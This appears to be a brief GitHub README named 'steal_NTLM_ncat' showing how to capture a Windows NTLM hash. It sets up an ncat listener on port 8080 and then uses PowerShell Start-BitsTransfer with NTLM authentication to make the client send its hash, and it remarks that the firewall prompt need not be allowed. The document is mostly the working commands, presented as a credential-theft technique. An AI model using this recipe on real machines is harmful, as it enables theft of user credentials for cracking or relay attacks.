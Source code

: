 # steal_NTLM_ncat

Start a CMD window and type:

ncat -l 8080 --keep-open < hello.html
***[No need to allow on firewall prompt]***

Start a Powershell window and type:

Start-BitsTransfer -Authentication NTLM -Source http://127.0.0.1:8080 -Description http://127.0.0.1:8080

Result:
___You got NTLM hash__



Can be changed to Negotiate as well, but didn't see the point

